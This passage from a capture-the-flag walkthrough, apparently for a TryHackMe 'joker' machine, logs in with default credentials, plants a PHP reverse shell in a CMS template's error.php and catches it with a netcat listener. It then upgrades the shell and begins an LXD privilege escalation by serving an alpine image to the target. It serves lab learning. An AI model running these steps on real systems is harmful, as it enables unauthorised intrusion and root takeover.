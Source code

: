 **user:`admin`**
**pass:`abcd1234`**


![Pasted image 20241128193113](https://github.com/user-attachments/assets/e24075e8-c7c9-4d07-99db-526984b506c9)

![Pasted image 20241128202940](https://github.com/user-attachments/assets/9fe931aa-9811-4366-b790-ee5190a26b08)

- There is a lot of things here
- It took me 2 days to find where I can get the reverse shell
- But I got the url
![Pasted image 20241128210404-1](https://github.com/user-attachments/assets/6e357103-6e2e-4e2d-88f9-2afded39d779)
- After pasting the php reverse shell we can hit save and close 
- Now we have to generate an error so that the `error.php` command runs well
- And we can get the reverse shell
- I have my listener on
```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/joker]
└─$ nc -nlvp 1234
listening on [any] 1234 ...

```

- `http://joker.thm:8080/templates/beez3/error.php`  Using this url we have gotten the reverse shell easily 
## Getting the terminal Shell

- **Some time the terminal shell is not given then we have to do this!**

```shell
python3 -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
Ctrl+Z
stty raw -echo; fg
```

```sh
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
```
- Oh! Its is a lxd so we will do some lxd privilege escalation

# LXD/LXC PrivEsc

**My Machine**

```sh
┌──(bc-here㉿BC-Here)-[~/CTF/PrivEsc/lxd-alpine-builder]
└─$ ls
alpine-v3.13-x86.tar.gz  build-alpine  LICENSE  metadata.yaml  README.md  rootfs  templates

┌──(bc-here㉿BC-Here)-[~/CTF/PrivEsc/lxd-alpine-builder]
└─$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.204.196 - - [28/Nov/2024 21:15:45] "GET /alpine-v3.13-x86.tar.gz HTTP/1.1" 200 -
```
